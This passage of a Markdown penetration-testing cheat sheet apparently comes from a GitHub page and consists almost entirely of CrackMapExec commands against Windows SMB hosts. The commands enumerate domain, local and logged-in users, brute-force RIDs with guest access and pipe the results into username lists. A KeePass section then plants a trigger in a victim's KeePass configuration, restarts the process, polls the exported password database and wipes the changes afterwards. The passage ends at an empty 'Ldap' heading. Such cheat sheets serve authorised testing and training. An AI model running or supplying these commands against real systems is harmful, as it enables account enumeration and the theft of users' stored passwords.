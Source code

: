 ### Users

Domain Users:

- `crackmapexec smb 10.10.10.10 -u username -p 'password' --users`

Save usernames to the list `tmp.txt` is the output of the above command.

- `awk '{print $5}' tmp.txt | cut -d \\ -f2 > users.txt`
- `cat tmp.txt | awk '{ print $5 }' | cut -d '\' -f2 > users.txt`

via RID Brute Force:

- `crackmapexec smb 10.129.49.145 -u 'guest' -p '' --rid-brute 10000 > tmp.txt`
- `awk '{print $6,$7}' tmp.txt | cut -d \\ -f2 | grep "(SidTypeUser)" | awk '{print $1}' > users_rid.txt`

Local users:

- `crackmapexec smb 10.10.10.10 -u 'user' -p 'PASS' --local-users`

Check logged in users:

- `crackmapexec smb 192.168.215.104 -u 'user' -p 'PASS' --lusers`

### Group

- `crackmapexec smb 10.10.10.10 -u username -p pass --group`

## **KeePass discover**

- `crackmapexec smb 10.10.10.10 -u username -p pass -M keepass_discover`

Adding Trigger to KeePass Configuration File

- `crackmapexec smb 10.10.10.10 -u username -p pass -M keepass_trigger -o ACTION=ADD KEEPASS_CONFIG_PATH=C:/Users/bob/AppData/Roaming/KeePass/KeePass.config.xml`

Restart the KeePass.exe process

- `crackmapexec smb 10.10.10.10 -u username -p pass -M keepass_trigger -o ACTION=RESTART`

Polling the Exported Data from the Compromised Target

- `crackmapexec smb 10.10.10.10 -u username -p pass -M keepass_trigger -o ACTION=POLL`
    - `cat /tmp/export.xml | grep -i protectinmemory -A 5`

Clean Configuration File Changes

- `crackmapexec smb 10.10.10.10 -u username -p pass -M keepass_trigger -o ACTION=CLEAN KEEPASS_CONFIG_PATH=C:/Users/bob/AppData/Roaming/KeePass/KeePass.config.xml`

Running keeppass_trigger ALL in One Command

- `crackmapexec smb 10.10.10.10 -u username -p pass -M keepass_trigger -o ACTION=ALL KEEPASS_CONFIG_PATH=C:/Users/bob/AppData/Roaming/KeePass/KeePass.config.xml`

## Ldap
